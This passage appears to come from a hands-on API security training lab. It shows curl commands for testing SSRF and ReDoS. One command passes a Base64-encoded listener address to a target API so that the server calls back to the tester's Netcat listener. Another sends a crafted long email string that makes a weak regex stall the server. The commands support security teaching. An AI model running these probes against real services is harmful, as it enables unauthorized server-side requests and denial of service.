 In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding ```http://<VPN/TUN Adapter IP>:<LISTENER PORT>``` and making an API call again:

```bash
curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

<br>
<br>
<br>
<br>

# ReDOS

Suppose we have a user that submits benign input to an API. On the server side, a developer could match any input against a regular expression. After a usually constant amount of time, the API responds. In some instances, an attacker may be able to cause significant delays in the API's response time by submitting a crafted payload that tries to exploit some particularities/inefficiencies of the regular expression matching engine.

The API resides in ```http://<TARGET IP>:3000/api/check-email``` and accepts a parameter called email.

```bash
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"




{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

Submit the above regex to ```regex101.com``` for an in-depth explanation. Then, submit the above regex to ```https://jex.im/regulex/``` for a visualization.

The second and third groups are doing bad iterative checks.

Let's submit the following valid value and see how long the API takes to respond.

```bash
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."




{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}
```

You will notice that the API takes several seconds to respond and that longer payloads increase the evaluation time.

The difference in response time between the first cURL command above and the second is significant.
